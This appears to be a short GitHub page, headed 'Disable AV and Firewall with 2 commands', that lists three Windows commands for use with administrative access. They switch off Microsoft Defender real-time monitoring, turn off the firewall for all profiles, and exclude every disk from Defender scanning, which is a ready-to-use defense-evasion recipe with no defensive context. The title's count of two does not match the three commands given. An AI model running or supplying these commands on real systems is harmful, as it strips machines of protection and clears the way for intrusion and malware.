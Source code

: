 ## Disable AV and Firewall with 2 commands

### Requirements: Administrative/System level access

#### 1) Set-MpPreference -DisableRealtimeMonitoring $True

#### 2) netsh advfirewall set allprofiles state off

#### 3) powershell  -c foreach ($disk in Get-WmiObject Win32_Logicaldisk){Add-MpPreference -ExclusionPath $disk.deviceid}
